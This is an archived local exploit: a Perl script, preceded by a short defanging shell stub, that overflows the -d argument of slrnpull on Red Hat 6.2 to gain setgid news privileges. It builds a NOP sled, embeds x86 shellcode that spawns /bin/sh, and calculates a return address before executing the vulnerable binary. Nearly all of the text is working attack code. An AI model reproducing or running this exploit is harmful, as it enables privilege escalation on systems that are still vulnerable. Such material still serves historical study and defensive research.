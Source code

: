 EXP
---

    #!/bin/sh
    echo DEFANGED.5
    exit
    #!/usr/bin/perl
    #
    # Credits for the vulnerability: Alex Hernandez (its setgid news not root)
    # The exploit was written by:    zillion@snosoft.com / safemode.org
    # http://www.safemode.org
    # http://www.snosoft.com
    #
    # Gain setgid news on a Red Hat 6.2 Intel box

    $shellcode =
            "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46".
            "\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1".
            "\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68";

    $offset  = "-500";
    $esp     = 0xbfffe2cc;

    for ($i = 0; $i < (2041 - (length($shellcode)) - 4); $i++) {
        $buffer .= "\x90";
    }

    $buffer .= $shellcode;
    $buffer .= pack('l', ($esp + $offset));

    print("The new return address: 0x", sprintf('%lx',($esp + $offset)), "\n");

    exec("/usr/bin/slrnpull -d '$buffer'");